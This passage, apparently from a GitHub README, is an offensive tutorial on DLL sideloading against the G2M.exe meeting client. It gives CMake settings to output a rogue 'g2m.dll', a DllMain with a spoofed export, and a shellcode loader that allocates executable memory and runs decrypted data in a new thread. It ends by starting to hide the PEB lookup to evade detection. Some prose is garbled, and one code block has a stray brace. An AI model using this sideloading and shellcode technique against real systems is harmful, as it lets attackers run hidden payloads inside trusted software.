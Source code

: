 <img align="center" src="https://github.com/user-attachments/assets/aa679db8-4353-4d90-8364-cf96d695e082" width="1000" height="300">

Also, in order not to rename the dll ourselves every time, add some more code after add_library
Instead of DllSideLoad, your name is from add_library.

```
set_target_properties( DllSideLoad
        PROPERTIES
        OUTPUT_NAME "g2m"
        SUFFIX ".dll")
```

Next we go to our library.cpp file and demolish everything clean. We are doing our import and test MessageBox to check if our idea is working.

```
#include "windows.h"

extern "C" __declspec(dllexport) __attribute__((visibility("default"))) int g2mcomm_winmain(DWORD, int, DWORD, DWORD, DWORD, DWORD){

return 0;
}

BOOL APIENTRY DllMain( HMODULE hModule,DWORD  ul_reason_for_call,LPVOID lpReserved){
switch (ul_reason_for_call) {
case DLL_PROCESS_ATTACH: {
MessageBoxW(NULL, L"Hello from g2m.dll", L"Entry", MB_ICONEXCLAMATION | MB_OK);
}break;
    }
return TRUE;
}
}
```

Build by pressing the hammer in Clion, on Linux you will have a joke that it is wrong to get off, so there we change add_library to add_executable

Next, after the build, we drop the dll next to G2M.exe and we see that it is not rejected as a foreign object and our MessageBox is executed.

### Let's write the simplest shellcode executor and check it further, I would not have been satisfied with it and I chose a slightly different path.

```
PVOID shellcode_exec = VirtualAlloc(0, decrypted_data.length(), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
mem_copy(shellcode_exec, decrypted_data.data(), decrypted_data.length());
DWORD threadID;
HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
WaitForSingleObject(hThread, INFINITE);
```

To begin with, let's hide the receipt of the PEB(Process Environment Block), by default it is __readfsdword(0x30);
But I want to hide this receipt and so that it is not visible that it exists, how can I do this?
